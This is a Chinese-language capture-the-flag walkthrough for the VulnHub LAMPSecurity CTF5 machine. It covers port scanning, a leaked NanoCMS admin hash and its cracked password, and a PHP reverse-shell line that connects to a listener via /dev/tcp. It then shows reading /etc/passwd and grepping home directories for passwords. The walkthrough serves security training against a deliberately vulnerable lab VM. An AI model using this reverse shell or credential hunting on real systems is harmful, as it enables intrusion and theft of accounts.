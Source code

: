> 文档地址：https://www.vulnhub.com/entry/lampsecurity-ctf5,84/
>
> 下载地址：https://download.vulnhub.com/lampsecurity/ctf5.zip

### nmap信息扫描

端口扫描

```bash
# nmap --min-rate 10000 10.9.75.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-28 10:24 中国标准时间
Nmap scan report for localhost (10.9.75.15)
Host is up (0.0020s latency).
Not shown: 990 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
25/tcp   open  smtp
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
143/tcp  open  imap
445/tcp  open  microsoft-ds
901/tcp  open  samba-swat
3306/tcp open  mysql
MAC Address: 00:0C:29:71:71:D3 (VMware)
```

详细扫描

```bash
# nmap -sT -sV -O -p 22,25,80,110,111,139,143,445,901,3306 10.9.75.15
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-28 10:25 中国标准时间
Nmap scan report for localhost (10.9.75.15)
Host is up (0.00059s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 4.7 (protocol 2.0)
25/tcp   open  smtp        Sendmail 8.14.1/8.14.1
80/tcp   open  http        Apache httpd 2.2.6 ((Fedora))
110/tcp  open  pop3        UW Imap pop3d 2006k.101
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
143/tcp  open  imap        UW imapd 2006k.396
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MYGROUP)
901/tcp  open  http        Samba SWAT administration server
3306/tcp open  mysql       MySQL 5.0.45
MAC Address: 00:0C:29:71:71:D3 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop
Service Info: Host: bogon; OS: Unix

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.14 seconds
```

### Web渗透

发现开放了很多端口，先看一下`80`端口

![image-20240128104621962](imgs/image-20240128104621962.png)

在点击`Blog`的时候，发现了网站的CMS：`nanocms`

![image-20240128104704954](imgs/image-20240128104704954.png)

```bash
searchsploit nanocms 
```



![image-20240128104843246](imgs/image-20240128104843246.png)

有RCE利用，但是需要认证

浏览器搜索相关利用信息

![image-20240128105337908](imgs/image-20240128105337908.png)

发现密码hash泄露，位置在`/data/pagesdata.txt`

`https://www.securityspace.com/smysecure/catid.html?id=1.3.6.1.4.1.25623.1.0.100141`

![image-20240128105406360](imgs/image-20240128105406360.png)

`http://10.9.75.15/~andy/data/pagesdata.txt`

![image-20240128105537980](imgs/image-20240128105537980.png)

`admin:9d2f75377ac0ab991d40c91fd27e52fd`

判断该hash值是哪种类型加密

```bash
hash-identifier
```

![image-20240128105658532](imgs/image-20240128105658532.png)

进行解密

![image-20240128110216960](imgs/image-20240128110216960.png)

`shannon`

尝试登录

![image-20240128110401997](imgs/image-20240128110401997.png)

![image-20240128110438535](imgs/image-20240128110438535.png)

成功登录后台

![image-20240128110449425](imgs/image-20240128110449425.png)

修改代码，反弹shell

![image-20240128110515320](imgs/image-20240128110515320.png)

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.9.75.6/1234 0>&1'")?>
```

![image-20240128111056512](imgs/image-20240128111056512.png)

kali开启监听

点击`Contact`触发反弹 shell

![image-20240128111032904](imgs/image-20240128111032904.png)

![image-20240128111131039](imgs/image-20240128111131039.png)

#### 提权

既然拿到了权限，先`sudo -l`，发现需要密码

![image-20240128111351235](imgs/image-20240128111351235.png)

`cat /etc/passwd`

发现除了`root`外，还有这么多用户有`bash`环境

![image-20240128111433471](imgs/image-20240128111433471.png)

在本机上搜索密码相关的文件

由于权限不高，在搜索的时候把错误的信息扔掉

```bash
grep -R -i pass /home/* 2>/dev/null
```

![image-20240128111801100](imgs/image-20240128111801100.png)

`/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note`

![image-20240128111940717](imgs/image-20240128111940717.png)

`50$cent`

![image-20240128112408765](imgs/image-20240128112408765.png)

![image-20240128112447948](imgs/image-20240128112447948.png)